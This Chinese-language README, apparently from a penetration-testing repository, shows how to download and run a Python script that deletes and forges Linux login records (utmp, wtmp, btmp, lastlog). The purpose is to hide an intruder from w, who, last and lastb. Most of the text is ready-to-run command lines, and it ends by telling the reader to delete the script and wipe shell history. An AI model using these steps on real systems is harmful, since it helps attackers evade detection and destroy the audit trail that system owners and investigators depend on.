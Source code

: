 ## 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于[freebuf](https://www.freebuf.com/articles/system/141474.html)，文章备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf),但是文章脚本失效了,我保存了一份.
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本，需要`Root`权限！
## 演示:  
![show img](./fake_login_log.gif)
## USEAGE  
> 首先下载到本地：
> wget https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/ssh/fake_login_log.py  
> 没有 wget 的请自行下载 Debian/Ubuntu 使用 sudo apt install wget -y ; Centos 使用yum install wget -y ; 新版的系统一般都默认安装有。
### 删除日志  
1. 删除utmp记录，将自己从w或者who输出中隐藏  
`python fake_login_log.py --mode delete --type utmp --user root` //删除用户为root的用户记录  
`python fake_login_log.py --mode delete --type utmp --user root --host "58.47.251.255" `//删除用户为root且登录来源host为58.47.251.255的用户记录  
2. 删除历史登录记录(wtmp)，隐藏last的记录  
`python fake_login_log.py --mode delete --type wtmp --user root --host "111.30.32.213" `//删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode delete --type btmp --user root --host "172.16.50.156" `//删除用户为root且登录来源host为127.0.0.1的用户记录  
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间  
`python fake_login_log.py --mode delete --type lastlog --host "172.16.50.1" `//删除来源host的用户登录记录  
`python fake_login_log.py --mode delete --type lastlog --date "2017-8-2 22:46:34" `//删除登录时间为2017-8-2 22:46:34的用户登录记录  

### 伪造日志  
1. 伪造utmp记录，将自己从w或者who输出中伪造  
`python fake_login_log.py --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" `//伪造用户为nobody的用户记录  
> 这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找  
2. 伪造历史登录记录(wtmp)，伪造last的记录  
`python fake_login_log.py --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `  
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `//伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录  
4. 伪造lastlog记录  
`python fake_login_log.py --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" `//伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录  

> PS: 执行完这些命令之后删除掉`fake_login_log.py`本身然后使用`history -cw`清除一下历史记录.美滋滋
